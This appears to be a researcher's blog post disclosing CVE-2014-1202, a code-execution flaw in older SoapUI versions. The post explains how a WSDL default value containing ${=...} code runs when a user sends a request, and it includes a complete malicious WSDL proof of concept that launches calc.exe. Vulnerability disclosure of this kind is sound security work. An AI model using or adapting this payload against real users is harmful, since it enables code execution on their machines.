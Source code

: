 ```yaml
---
layout: post
title: SoapUI Code Execution Vulnerability - CVE-2014-1202
---
```


![](https://www.soapui.org/soapui/media/images/stories/homepage/Features/soapUI-logo.png)<br>In this blog post I will discuss a vulnerability I’ve found in the SoapUI product before version 4.6.4 ([CVE-2014-1202](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-1202)).

I discovered this vulnerability during a penetration test in which I saw that the SoapUI software allows the clients to execute a Java code on the local machine by putting a Java code inside the following tag:

  

${=**_JAVA CODE_**};

  
  
The vulnerability allows the attacker to execute the java code on the victim's machine, thereby putting in danger the SoapUI users, including developers, penetration testers, etc.

  

The SoapUI product allows users to open a SOAP / REST project and import  WSDL/WADL files that help the users to communicate with the remote server easily.

WSDL/WADL files are XML-based grammar that define the operations that a web service offers and the format of the request and response messages that the client sends to and receives from the operations.

In WSDL/WADL files, the file owner can determine the default values of some parameters. Thus, an attacker can impersonate a legitimate web service and inject a malicious Java code into a default value of one of the parameters, and spread it to SoapUI clients.

When a SoapUI client will load a malicious WSDL/WADL file to his project in the SoapUI software, and send a request containing the malicious Java code, the SoapUI will execute the malicious Java code on the victim's computer.

  

The attack scenario:

1. An attacker impersonates a regular web service with a malicious WSDL containing the malicious Java code.

2. The victim creates a new project in the SoapUI and loads the malicious WSDL.

3. The victim decides to send a request to the remote server, thus, the SoapUI executes the malicious Java code.

4. The attacker succeeds in executing malicious code in the victim's machine and will take it over.

  

A Proof of Concept (PoC) video can be found at the following link:

[http://www.youtube.com/watch?v=3lCLE64rsc0](http://www.youtube.com/watch?v=3lCLE64rsc0)

An example of a malicious WSDL file can be found at the following link:

```javascript
<!--Malicious WSDL File, SoapUI Code Execution Vulnerability CVE-2014-1202, Barak Tawily-->
<wsdl:definitions targetNamespace="http://example.companyInfo"
 xmlns:tns="http://example.companyInfo"
 xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
 xmlns:wsdlsoap="http://schemas.xmlsoap.org/wsdl/soap/"
 xmlns:wsdlmime="http://schemas.xmlsoap.org/wsdl/mime/"
 xmlns:xsd="http://www.w3.org/2001/XMLSchema">

 <wsdl:types>
  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.header">

   <xsd:element name="sampleHeader">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="priority" type="xsd:int"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>


  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.companyInfo">

   <xsd:element name="Payload_Request">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="Payload" default="${=Runtime.getRuntime().exec('calc.exe')};" type="xsd:string"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>

   <xsd:element name="Payload_RequestResult">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="result" type="xsd:float"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>
  
  
 </wsdl:types>

 <wsdl:message name="Payload_RequestRequest">
   <wsdl:part name="part1" element="tns:Payload_Request"/>
 </wsdl:message>

 <wsdl:message name="Payload_RequestResponse">
  <wsdl:part name="part1" element="tns:Payload_RequestResult"/>
  <wsdl:part name="part2" type="xsd:string"/>
  <wsdl:part name="part3" type="xsd:base64Binary"/>
 </wsdl:message>

 <wsdl:portType name="CompanyInfo">
  <wsdl:operation name="Payload_Request">
   <wsdl:input message="tns:Payload_RequestRequest"
               name="Payload_RequestRequest"/>
   <wsdl:output message="tns:Payload_RequestResponse"
                name="Payload_RequestResponse"/>
  </wsdl:operation>
 </wsdl:portType>

 <wsdl:binding name="Exploit" type="tns:CompanyInfo">
  <wsdlsoap:binding style="document" transport="http://schemas.xmlsoap.org/soap/http"/>

  <wsdl:operation name="Payload_Request">
   <wsdlsoap:operation soapAction=""/>
   <wsdl:input name="Payload_RequestRequest">
    <wsdlsoap:body use="literal"/>
   </wsdl:input>
   <wsdl:output name="Payload_RequestResponse">
    <wsdlsoap:body use="literal"/>
   </wsdl:output>
  </wsdl:operation>
 </wsdl:binding>

 <wsdl:service name="CompanyInfoService">
  <wsdl:port binding="tns:Exploit" name="SOAPPort">
   <wsdlsoap:address location="http://somewhere/services/CompanyInfoService"/>
  </wsdl:port>
 </wsdl:service>

</wsdl:definitions>
```


